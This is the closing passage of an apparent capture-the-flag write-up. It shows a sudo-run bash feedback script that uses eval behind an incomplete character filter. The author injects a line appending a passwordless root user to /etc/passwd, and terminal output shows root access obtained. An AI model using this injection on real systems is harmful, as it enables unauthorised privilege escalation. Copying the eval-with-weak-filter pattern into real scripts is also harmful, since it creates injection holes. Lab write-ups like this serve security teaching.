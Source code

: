 ```bash

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi

```

The scripts takes input from user and checks it for some special characters which could be used for command injection. It then uses eval command to print the feedback and then adds to `/var/log/feedback.txt`.

That use of eval is our way to get root because luckily for us, the symbol `>` is not in the filter which we could use to write to files like `/etc/passwd` or root ssh folder.

Let's construct the line we will be appending the the `/etc/passwd` file.

```terminal
evil::0:0:root:/root:/bin/bash >> /etc/passwd
```

This will create a new user account with root privileges.

Now let's run the sudo command and add our exploit.

```terminal
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
evil::0:0:root:/root:/bin/bash >> /etc/passwd
It is This:
Feedback successfully saved.
deku@myheroacademia:~$ su evil
root@myheroacademia:/home/deku#
root@myheroacademia:/home/deku# id
uid=0(root) gid=0(root) groups=0(root)
```

And just like that we got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References
